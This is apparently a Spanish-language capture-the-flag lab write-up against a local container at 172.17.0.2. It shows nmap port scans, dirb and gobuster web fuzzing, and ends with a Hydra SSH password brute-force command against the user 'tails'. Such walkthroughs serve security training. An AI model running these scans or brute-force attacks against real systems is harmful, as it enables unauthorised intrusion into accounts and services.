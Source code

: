 
![](img/Pasted%20image%2020250101103808.png#center)


Compruebo si está activa
```
ping -c 1 172.17.0.2
```

![](img/Pasted%20image%2020250101105520.png#center)


### Escaneo de puertos
- Primero hago un reconocimiento de puertos silencioso de los puertos abiertos
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2
```

![](img/Pasted%20image%2020250101105541.png#center)

**Resultados del escaneo:**

| Puerto | Estado | Servicio |
| ------ | ------ | -------- |
| 22/tcp | open   | ssh      |
| 80/tcp | open   | http     |


Realizamos un segundo escaneo al puerto abierto, lanzando una serie de script por defecto de `nmap` y reconocimiento de servicios.
```
nmap -p22,80 -sVC --min-rate 5000 -n -Pn 172.17.0.2
```

![](img/Pasted%20image%2020250101105737.png#center)


| Puerto | Estado | Servicio | Versión                          |
| ------ | ------ | -------- | -------------------------------- |
| 22/tcp | open   | ssh      | OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 |
| 80/tcp | open   | http     | Apache httpd 2.4.58 ((Ubuntu))   |

---


<h3><center> Análisis del servidor web HTTP (puerto 80)</center></h3>

Al introducir la IP como la dirección URL, la web nos muestra lo siguiente:
![](img/Pasted%20image%2020250101110000.png#center)

Nos muestra una palabra `tails`, que en español significa `cruz`. Puede que sea algún nombre de usuario, pero antes realizamos `fuzzing web` para intentar enumerar fichero y directorios que estén alojados en el servidor web.


#### Fuzzing Web

Primero vamos a usar la herramienta `dirb`, que realiza un escaneo rápido.
```
dirb http://172.17.0.2
```

![](img/Pasted%20image%2020250101110314.png#center)


No encuentra mucho, así que realizamos un segundo escaneo con la herramienta `gobuster`.
```
gobuster -dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,txt,asp,aspx
```

![](img/Pasted%20image%2020250101111237.png#center)

Tampoco nos encuentra mucho. Así que realizaremos un ataque de fuerza bruta para comprobar que `tails` es un usuario y poder ver si conseguimos su contraseña.

#### Hydra
Si tomamos como usuario la palabra que nos indica la web `tails`, vamos a realizar un ataque de fuerza bruta para conseguir la contraseña del mismo por el protocolo `SSH` que también está abierto.
```
hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64
```


